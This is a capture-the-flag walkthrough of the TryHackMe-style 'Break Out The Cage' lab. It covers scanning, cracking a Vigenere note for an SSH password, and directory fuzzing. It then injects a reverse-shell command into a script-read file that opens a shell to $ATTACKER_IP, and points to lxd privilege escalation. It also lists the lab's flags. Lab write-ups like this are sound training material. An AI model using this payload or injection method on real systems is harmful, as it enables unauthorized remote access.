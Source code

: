 
# Break Out The Cage

We'll start with our usual nmap scan:

```bash
$ sudo nmap 10.10.67.99 -Pn -p- -A -vv -T4 --script discovery,vuln -oN nmap-scan --min-parallelism 55
```

Select running services with

```bash
$ cat nmap-scan | grep -e '[0-9]\+/tcp[[:space:]].*' -o
```

[x] 21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3

[x] 22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

[x] 80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))

We'll start with anonymous login to ftp. It contains a file called "dad_tasks", there's
an encoded message inside.

```
UWFwdyBFZWtjbCAtIFB2ciBSTUtQLi4uWFpXIFZXVVIuLi4gVFRJIFhFRi4uLiBMQUEgWlJHUVJPISEhIQpTZncuIEtham5tYiB4c2kgb3d1b3dnZQpGYXouIFRtbCBma2ZyIHFnc2VpayBhZyBvcWVpYngKRWxqd3guIFhpbCBicWkgYWlrbGJ5d3FlClJzZnYuIFp3ZWwgdnZtIGltZWwgc3VtZWJ0IGxxd2RzZmsKWWVqci4gVHFlbmwgVnN3IHN2bnQgInVycXNqZXRwd2JuIGVpbnlqYW11IiB3Zi4KCkl6IGdsd3cgQSB5a2Z0ZWYuLi4uIFFqaHN2Ym91dW9leGNtdndrd3dhdGZsbHh1Z2hoYmJjbXlkaXp3bGtic2lkaXVzY3ds
```

decode it:

```bash
$ cat dad_tasks | base64 -d
```

```
Qapw Eekcl - Pvr RMKP...XZW VWUR... TTI XEF... LAA ZRGQRO!!!!
Sfw. Kajnmb xsi owuowge
Faz. Tml fkfr qgseik ag oqeibx
Eljwx. Xil bqi aiklbywqe
Rsfv. Zwel vvm imel sumebt lqwdsfk
Yejr. Tqenl Vsw svnt "urqsjetpwbn einyjamu" wf.

Iz glww A ykftef.... Qjhsvbouuoexcmvwkwwatfllxughhbbcmydizwlkbsidiuscwl
```

I used [Boxentrique](https://www.boxentriq.com/code-breaking/cipher-identifier) to
deduce the cipher. Surprise-surprise - it's Vigenere!

I also tried to automatically deduce the key, but no luck. So I tried annother service -
[f00l](https://f00l.de/hacking/vigenere.php)

So I tried then to deduce the length of key:

![step-1](https://i.postimg.cc/ncvDktG2/vigenere-step-1.png)

And automatically crack it based on the length:

![step-2](https://i.postimg.cc/nzDzhvd2/vigenere-step-2.png)

But the site doesn't give us the clertext, so let's see what did we get:

![step-3](https://i.postimg.cc/pLcXQ04k/vigenere-step-3.png)

It resembles the name of file that we've found earlier lying around - "dads tasks"
So I tried to guess the key based on the possible cleartext:

![step-4](https://i.postimg.cc/JnZrLRnd/vigenere-step-4.png)

And we got a first part of the key! We now know it looks like namelesst*

Ok, it's definitely a phrase. We can go back to Boxentrique and try to recover a few 
more letters. With the key "namelessthe", the note partially makes sense:

![step-5](https://i.postimg.cc/ZR712gPD/vigenere-step-5.png)

Lets navigate back to f00l and use the same cracking option as in step 3 - by ciphertext
and cleartext.

Grab the first line of ciphertext and remove everything except letters and whitespaces:

> Qapw Eekcl Pvr RMKP XZW VWUR TTI XEF LAA ZRGQRO

Next, grab the corresponding ciphertext and remove everything except letters and 
whitespaces as well. Then, change it a bit, so it would make sense:

> Dads Tasks The RAGE THE Rage THE MAN THE LEGEND

![step-6](https://i.postimg.cc/mZdHpSvz/vigenere-step-6.png)

The generated key is... ***namelesstwoname***

Clearly, it started repeting itself. The real key is ***namelesstwo***

Decoded message:

```
Dads Tasks - The RAGE...THE CAGE... THE MAN... THE LEGEND!!!!
One. Revamp the website
Two. Put more quotes in script
Three. Buy bee pesticide
Four. Help him with acting lessons
Five. Teach Dad what "information security" is.

In case I forget.... Mydadisghostrideraintthatcoolnocausehesonfirejokes
```

- What is Weston's password?

We have no idea, who the hell Weston is, but we got his password )0))0)0))0

> Mydadisghostrideraintthatcoolnocausehesonfirejokes

Ok, let's start investigating the http service:

```bash
$ ./ffuf -u http://10.10.67.99/FUZZ -ic -t 55 -of html -o ~/CTF/BreakOutTheCage/ffuf-report.html -w ~/CyberSecurity/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

Results:

```
images                  [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 65ms]
html                    [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 60ms]
scripts                 [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 52ms]
contracts               [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 55ms]
auditions               [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 59ms]
server-status           [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 61ms]
```

Turns out, under /auditions there's an mp3 file. You can use audacity to analyze it.
You'll hear some noise. Select the "Show spectrogram" option in the left dropdown
and take a closer look to the section, where the noise starts:

![audacity](https://i.postimg.cc/tCWBxTv4/audacity.png)

- What's the user flag?

Ok, let's login as weston via ssh.

Find all files, writable by our group:

```bash
$ find / -type f -perm /g=w 2>/dev/null | tee writable.txt
```

A suspicious file "/opt/.dads_scripts/.files/.quotes" appears. After a bit of browsing,
we find out that random strings are selected from it and broadcasted by concatenating
with "wall" command. We can simply replace the content of .quotes with the following
content:

```
aaa; bash -c '0<&196;exec 196<>/dev/tcp/$ATTACKER_IP/$ATTACKER_PORT; sh <&196 >&196 2>&196';
```

Then just read ***Super_Duper_Checklist*** file

> THM{M37AL_0R_P3N_T35T1NG}

- What's the root flag?

```bash
$ id
```

We are in ***lxd*** group. This can be used for [privesc](https://www.hackingarticles.in/lxd-privilege-escalation/). Just repeat the steps in this article.

> THM{8R1NG_D0WN_7H3_C493_L0N9_L1V3_M3}
